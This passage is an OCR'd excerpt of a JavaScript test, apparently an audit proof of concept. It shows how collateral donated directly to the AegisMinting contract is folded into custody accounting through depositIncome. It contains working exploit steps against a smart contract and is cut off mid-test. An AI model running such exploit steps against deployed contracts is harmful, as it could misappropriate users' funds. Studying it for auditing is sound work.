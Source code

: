 ```javascript
      const totalBalance = legitimateCollateralAmount + directTransferAmount
      await expect(assetContract.balanceOf(aegisMintingAddress)).to.eventually.equal(totalBalance)

      // Verify internal accounting: custody available unchanged, untracked reflects donation
      expect(await aegisMintingContract.custodyAvailableAssetBalance(assetAddress)).to.equal(legitimateCollateralAmount)
      expect(await aegisMintingContract.untrackedAvailableAssetBalance(assetAddress)).to.equal(directTransferAmount) // This is the key check

      // --- 3. Exploit via depositIncome ---
      const snapshotId = 'exploit-test'
      const incomeYusdAmount = ethers.parseEther('49') // Corresponds to donated collateral
      const incomeCollateralAmount = directTransferAmount // Use the donated amount

      const depositBlockTime = await time.latest()
      const depositOrder = {
        orderType: OrderType.DEPOSIT_INCOME,
        userWallet: owner.address, // Needs FUNDS_MANAGER_ROLE
        beneficiary: ethers.ZeroAddress, // Not used in depositIncome
        collateralAsset: assetAddress,
        collateralAmount: incomeCollateralAmount, // Attempt to use the donated funds
        yusdAmount: incomeYusdAmount, // YUSD to be generated
        slippageAdjustedAmount: 0, // Not used in depositIncome
        expiry: depositBlockTime + 10000,
        nonce: Date.now() + 1, // Use a different nonce
        additionalData: encodeString(snapshotId),
      }
      const depositSignature = await signOrder(depositOrder, aegisMintingAddress)

      const aegisRewardsBalanceBefore = await yusdContract.balanceOf(aegisRewardsAddress)
      const insuranceFundBalanceBefore = await yusdContract.balanceOf(insuranceFundAccount.address)

      // Expect depositIncome to succeed because _untrackedAvailableAssetBalance check passes
      await expect(aegisMintingContract.connect(owner).depositIncome(depositOrder, depositSignature)).to.emit(
        aegisMintingContract,
        'DepositIncome',
      ) //.withArgs(...) // Can add detailed event checks

      // --- 4. Verify Outcome ---
      // Check balances after depositIncome
      const expectedIncomeFee = (incomeYusdAmount * INCOME_FEE_BP) / MAX_BPS
      const expectedAegisRewards = incomeYusdAmount - expectedIncomeFee

      await expect(yusdContract.balanceOf(insuranceFundAccount.address)).to.eventually.equal(
        insuranceFundBalanceBefore + expectedIncomeFee,
      )
      await expect(yusdContract.balanceOf(aegisRewardsAddress)).to.eventually.equal(
        aegisRewardsBalanceBefore + expectedAegisRewards,
      )

      // Verify contract asset balance remains the same (as depositIncome doesn't consume external assets)
      await expect(assetContract.balanceOf(aegisMintingAddress)).to.eventually.equal(totalBalance)

      // Crucially, check that the "donated" funds are now considered part of the custody-transferrable funds
      // _custodyTransferrableAssetFunds = initial legitimate mint + collateral from depositIncome
      const expectedCustodyBalance = legitimateCollateralAmount + incomeCollateralAmount
      expect(await aegisMintingContract.custodyAvailableAssetBalance(assetAddress)).to.equal(expectedCustodyBalance)

      // Untracked balance should be back to 0 (or close, depending on rounding if any)
```